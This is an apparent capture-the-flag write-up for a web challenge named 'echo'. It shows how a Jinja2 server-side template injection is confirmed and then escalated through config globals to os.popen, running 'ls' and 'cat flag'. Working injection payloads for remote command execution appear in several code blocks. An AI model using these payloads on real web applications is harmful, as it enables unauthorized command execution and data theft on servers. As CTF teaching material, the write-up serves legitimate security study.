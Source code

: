 # echo

> ### echo
>
> #### 909 `(23 Solves)`
>
> My website keeps repeating what I input. How can I make it stop.
>
> `nc c2.lagncrash.com 8001`

![](<../../.gitbook/assets/image (15).png>)

The server does indeed echo back our input. This might mean there is a SSTI vulnerability as the server injects our input into the template before sending us back.

![](<../../.gitbook/assets/image (22).png>)

Using the above payload, the engine evaluated the payload as 7777777 and hence the template engine used is Jinja2 and that the server is vulnerable to SSTI.

```
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

The above payload results in an internal server error.

![](<../../.gitbook/assets/image (33).png>)

We were able to dump the configuration of the server. This also means we can abuse config to find the global symbol table and find further functions to abuse.

```
{{config.__class__.__init__.__globals__}}
```

> Python globals() function is **a built-in function used to update and return a dictionary of the current global symbol table**. The functions and variables that are not associated with any class or function are stored globally. It is mostly used for debugging purposes to see what objects the global scope actually contains

We dump all the available functions and found that the os module is loaded.

![](<../../.gitbook/assets/image (34).png>)

```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

We then call os.popen to execute arbitrary commands, in this case finding the files in current directory.

![](<../../.gitbook/assets/image (40).png>)

```
{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
```

![](<../../.gitbook/assets/image (16).png>)

